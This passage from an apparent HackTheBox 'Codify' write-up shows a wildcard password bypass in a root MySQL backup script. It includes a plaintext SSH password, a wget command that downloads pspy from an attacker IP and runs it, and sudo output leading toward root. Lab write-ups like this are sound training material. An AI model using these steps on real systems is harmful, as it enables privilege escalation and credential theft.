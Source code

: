 ```bash
/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

> **Foothold**
> The password was stored at `/root/.creds`, if user inputs the right password, the script will backup all databases from mysql as root
> 
> In order to get `$DB_PASS` that was passed to command line, we can bypass password check with asterisks/wild card (`*`)
{: .prompt-info }

Start **pspy** first

```bash
cssh joshua@codify.htb 'spongebob1'
wget 10.10.16.30/pspy64 -O /dev/shm/pspy && chmod +x /dev/shm/pspy && /dev/shm/pspy
```

Trigger the command

```bash
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: *
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

> If the command line wasn't captured by **pspy**, just run the script several times till it shows up
{: .prompt-tip }

![](/assets/obsidian/0b56f5b2295055d7c57a39b21cd60daf.png)

### Shell as root

Password reuse
